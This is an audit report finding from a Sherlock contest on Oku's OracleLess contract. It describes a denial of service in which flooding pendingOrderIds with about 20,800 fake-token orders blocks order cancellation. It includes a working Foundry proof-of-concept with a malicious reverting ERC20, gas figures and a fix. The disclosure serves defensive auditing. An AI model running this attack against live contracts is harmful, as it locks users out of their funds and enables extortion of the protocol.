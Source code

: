 # Overview
- [Issue M-10: cancelOrder order can be DOSed due to unbounded loop](#issue-m-10-cancelorder-order-can-be-dosed-due-to-unbounded-loop)

## Issue M-10: cancelOrder order can be DOSed due to unbounded loop.
Source: https://github.com/sherlock-audit/2024-11-oku-judging/issues/589

### Found by
056Security, 0x0x0xw3, 0x37, 0xNirix, 0xaxaxa, 0xeix, 0xlucky, Audinarey, Boy2000, Chinedu, Contest-Squad, ExtraCaterpillar, John44, Kenn.eth, Opeyemi, PeterSR, Ragnarok, Tri-pathi, ami, befree3x, bughuntoor, future2_22, gajiknownnothing, hals, iamandreiski, itcruiser00, joshuajee, mxteem, oualidpro, phoenixv110, rahim7x, s0x0mtee, vinica_boy, whitehair0330, xiaoming90, ***yuza101***, zhoo, zxriptor

### Summary
The pendingOrderIds arrays can grow too large making it impossible to cancel subsequent legitimate pending orders, this will create a permanent DOS for the _cancelOrder no one will be able to cancel orders not admin nor order reciepient.

### Root Cause
The root cause of the issue lies in the _cancelOrder function that loops through the pendingOrderIds in search of the right one because this pendingOrderIds array can grow too large a DOS is bound to happen and this can be exploited by a hacker to ransomware the protocol.

https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L151
```
    function _cancelOrder(Order memory order) internal returns (bool) {  
        for (uint96 i = 0; i < pendingOrderIds.length; i++) {  
            if (pendingOrderIds[i] == order.orderId) {  
                //remove from pending array  
                pendingOrderIds = ArrayMutation.removeFromArray(  
                    i,  
                    pendingOrderIds  
                );  
  
                //refund tokenIn amountIn to recipient  
                order.tokenIn.safeTransfer(order.recipient, order.amountIn);  
  
                //emit event  
                emit OrderCancelled(order.orderId);  
  
                return true;  
            }  
        }  
        return false;  
    }  
``` 
### Internal pre-conditions
No response

### External pre-conditions
No response

### Attack Path
Attacker creates a malicious ERC20 token with fake transfers to ease the gas cost for this attack.
Attacker Creates 20800 orders using a worthless token as tokenIn, demanding 1 USDC per order.
They make it impossible for the admin to cancel the order because they deliberately revert the transfer on their malicious contract.
After this legitimate users will not be able to cancel order.

### Impact
The cancelOrder function won't work and it will cost around $150 dollar to do it.
There is a financial ransomware gain where the attacker can set high tokens out and force the admin to pay more money for their worthless token, so this is incentivized.

### PoC
Follow these steps to add foundry to the contract https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry

Install open zeppelin contracts
```
forge install https://github.com/OpenZeppelin/openzeppelin-contracts.git --no-commit
```
  
Copy and paste the code snippet below in the /test/ folder.
```
// SPDX-License-Identifier: MIT  
pragma solidity ^0.8.24;  
  
import "forge-std/Test.sol";  
import "forge-std/console.sol";  
import {ERC20Mock} from "openzeppelin-contracts/contracts/mocks/token/ERC20Mock.sol";  
import { AutomationMaster } from "../contracts/automatedTrigger/AutomationMaster.sol";  
import { OracleLess } from "../contracts/automatedTrigger/OracleLess.sol";  
import "../contracts/interfaces/uniswapV3/IPermit2.sol";  
import "../contracts/interfaces/openzeppelin/ERC20.sol";  
import "../contracts/interfaces/openzeppelin/IERC20.sol";  
  
contract FakeERC20 {  
    function transfer(address to, uint256 amount) external returns (bool) {   
        revert("HACKED!");  
        return false;  
    }  
  
    function transferFrom(address from, address to, uint256 amount) external returns (bool) {   
        return true;  
    }  
  
}  
  
contract PocTest is Test {  
  
    AutomationMaster automationMaster;  
    OracleLess oracleLess;  
    IPermit2 permit2;  
    IERC20 fakeErc20;  
    IERC20 realToken;  
  
    address attacker = makeAddr("attacker");  
    address alice = makeAddr("alice");  
  
    function setUp() public {  
        automationMaster = new AutomationMaster();  
        oracleLess = new OracleLess(automationMaster, permit2);  
        fakeErc20 = IERC20(address(new FakeERC20()));  
        realToken = IERC20(address(new ERC20Mock()));  
        //MINT  
        ERC20Mock(address(realToken)).mint(alice, 100 ether);  
    }  
  
    function testDosAttack() public {  
        uint96 orderId;  
        uint gasUsed = gasleft();  
        vm.startPrank(alice);  
        realToken.approve(address(oracleLess), 100 ether);  
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');  
        gasUsed = gasleft();  
        oracleLess.cancelOrder(orderId);  
        console.log("Normal Cancel Gas Usage        : ", gasUsed - gasleft());  
        vm.stopPrank();  
  
        vm.startPrank(attacker);  
        gasUsed = gasleft();  
        for (uint i = 0; i < 20800; i++)  
            oracleLess.createOrder(fakeErc20, fakeErc20, 1, 1, attacker, 10, false, '0x0');  
        console.log("Attack Gas Usage               : ", gasUsed - gasleft());  
        vm.stopPrank();  
  
        vm.startPrank(alice);  
        gasUsed = gasleft();  
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');  
        oracleLess.cancelOrder(orderId);  
        console.log("After Attack Cancel Gas Usage  : ", gasUsed - gasleft());  
        vm.stopPrank();  
    }  
  
}
```  
Output
```
[PASS] testDosAttack() (gas: 444968053)  
Logs:  
  Normal Cancel Gas Usage        :  9439  
  Attack Gas Usage               :  394889776  
  After Attack Cancel Gas Usage  :  30294277
```
From the test output, we can see that 20800 order is enough to cause a DOS on the cancelOrder function, and it will cost the attacker 394889776 is about $150 dollar.

### Mitigation
Create a fuction that can use the index to cancel order.

### References
https://audits.sherlock.xyz/contests/641/report
